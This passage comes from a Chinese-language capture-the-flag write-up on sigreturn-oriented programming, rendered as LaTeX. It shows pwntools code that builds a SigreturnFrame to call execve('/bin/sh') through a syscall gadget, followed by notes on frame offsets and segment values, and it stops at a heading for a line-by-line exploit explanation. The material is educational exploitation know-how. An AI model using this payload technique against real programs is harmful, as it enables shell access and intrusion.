 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\textbf{好消息}：pwntools 有
\texttt{SigreturnFrame()}，我們只要設欄位，它會幫我們排出正確的 bytes：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{frame }\OperatorTok{=}\NormalTok{ SigreturnFrame()}
\NormalTok{frame.rax }\OperatorTok{=} \DecValTok{59}          \CommentTok{\# execve}
\NormalTok{frame.rdi }\OperatorTok{=}\NormalTok{ sh\_addr     }\CommentTok{\# "/bin/sh"}
\NormalTok{frame.rsi }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rdx }\OperatorTok{=} \DecValTok{0}
\NormalTok{frame.rip }\OperatorTok{=}\NormalTok{ SYSCALL\_RET }\CommentTok{\# syscall 指令的位址}
\NormalTok{frame.rsp }\OperatorTok{=}\NormalTok{ 某個合法位址  }\CommentTok{\# 還原後 rsp 的值（本題用 sh\_addr + 0x200；理由見第 6 節步驟 5）}
\NormalTok{payload }\OperatorTok{+=} \BuiltInTok{bytes}\NormalTok{(frame)   }\CommentTok{\# 直接轉成 bytes（長度 0xf8）}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※注意 注意：\texttt{rt\_\allowbreak{}sigreturn} 也會還原
\texttt{cs}/\texttt{ss}/\texttt{eflags} 等。 用 pwntools 產生的 frame
會填好合理的預設值（實測 \texttt{bytes(frame){[}0xb8:\allowbreak{}0xc0{]}} =
\texttt{33\ \allowbreak{}00\ \allowbreak{}00\ \allowbreak{}00\ \allowbreak{}00\ \allowbreak{}00\ \allowbreak{}00\ \allowbreak{}00}，也就是 \texttt{cs\ \allowbreak{}=\ \allowbreak{}0x33} =
64-bit user code segment、\texttt{gs}/\texttt{fs} = 0 ------ x86-64 的
\texttt{sigcontext} 只用到 \texttt{cs}/\texttt{gs}/\texttt{fs} 三個
u16，\textbf{沒有 \texttt{0x2b} 這種 32-bit 相容模式的
segment}，不要自己多填一個值）。 另外核心會檢查
\texttt{cs\ \allowbreak{}==\ \allowbreak{}0x33}（64-bit user code segment）這類條件， 若 frame
有問題會直接送 SIGSEGV
把程式殺掉。所以\textbf{不要自己去改沒必要的欄位}。

※重要 \textbf{最常見的錯誤}：把「sigcontext 的偏移」直接當成「frame
的偏移」。 \texttt{rdi} 在 frame 裡是 \textbf{0x68}，不是 0x40（0x40 是
\texttt{r11}）。 如果手刻 frame 就要用上表的絕對偏移；用
\texttt{SigreturnFrame} 就不用管。
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{6. Exploit
逐行解說}\label{exploit-ux9010ux884cux89e3ux8aaa}
\end{document}
